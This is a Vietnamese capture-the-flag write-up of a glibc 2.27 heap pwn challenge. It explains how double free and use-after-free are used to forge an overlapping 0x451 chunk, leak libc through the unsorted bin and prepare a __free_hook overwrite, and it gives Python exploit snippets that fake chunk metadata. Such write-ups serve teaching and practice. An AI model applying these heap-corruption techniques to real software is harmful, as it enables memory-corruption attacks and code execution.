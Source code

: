 - như đã thấy trên ida thì ta có 4 option, 1 là tạo 1 chunk, 2 là free thằng ptr, 3 là show là content của name_addr
- **ptr = 0x602088 và name_addr = 0x602060**
- bài này ta dự đoán hướng làm là **overwrite free hook** (vì có thể free nhiều lần cũng như không có hàm tạo shell hay cat flag)
- ta cần leak được libc, mà bây giờ hàm show() chia in mỗi name_addr, nên ta nghĩ ngay làm cách nào để free được name_addr
- để có libc trong content thì cần free vào unsorted bins, mà chương trình đã giới hạn còn 0xff(255), mà ta cần trên 0x400 => **sử dụng Overlapping Chunk vừa học đề fake heap meta data**
- à ở đây ta còn có thêm lỗi **Double Free và Use After Free** để dễ dàng leak libc nữa

## Khai thác

- đầu tiên ta cần leak libc trước
- sử dụng lỗi **Double Free** để biến name_addr thành 1 chunk, sau đó sẽ thay đổi (name_addr - 0x8) thành 0x451 nhầm tạo ra 1 chunk có địa chỉ là name_addr với size là 0x440

![image](https://github.com/gookoosss/CTF/assets/128712571/a5805d59-1c6c-484f-99de-28624fa0c498)

- để hàm free(ptr) có thể free name_addr thì ta cần gán địa chỉ name_addr vào ptr
 
![image](https://github.com/gookoosss/CTF/assets/128712571/e056e192-6e42-435e-bb1c-6592e52617fa)

- lúc này ta đã tạo được 1 chunk có size là 0x440, địa chỉ của chunk là name_addr, và ta cũng đã gán name_addr vào ptr rồi nên khi ta free nó sẽ lưu vào unsorted bins và ta leak được libc 

```python 
add(0x80, b'a' * 16)
delete()
delete()
add(0x80, p64(name_addr - 0x10)) # heap metadat
add(0x80, p64(name_addr - 0x10))
payload = p64(0) + p64(0x451) # size
payload += p64(0xcafebabe) + p64(0) # content
payload += p64(0xcafebabe) + p64(0)
payload += p64(0xcafebabe) + p64(name_addr) # 0x602088(ptr) == name_addr
add(0x80, payload)
delete()
show()
```
- hmm nhưng có vẻ có bug không như mong đợi rồi

![image](https://github.com/gookoosss/CTF/assets/128712571/9df92c01-e17c-4f1d-8f71-7cea78bf185d)


- ta copy bug rồi lên web này xem: https://elixir.bootlin.com/glibc/glibc-2.27/source/malloc/malloc.c
- theo như mình tham khảo wu thì **bug này nó sẽ check cái chunk đằng sau cái chunk ta định free set có được set đầy đủ INUSE hay không**

![image](https://github.com/gookoosss/CTF/assets/128712571/3bf190fd-dbc3-4da4-9531-4643e6377615)

- vậy thì giờ ta **cần tạo ra 1 fake chunk khác đằng sau name_addr với size như nào cũng được**, nhưng mà nên làm nhỏ thôi 
```python 
add(0x90, b'a' * 16)
delete()
delete()
add(0x90, p64(name_addr + 0x450 - 0x10)) #fake chunk
add(0x90, p64(name_addr + 0x450 - 0x10))
payload = p64(0) + p64(0x21) #size
payload += p64(0) + p64(0x21) 
payload += p64(0) + p64(0x21)
add(0x90, payload)
```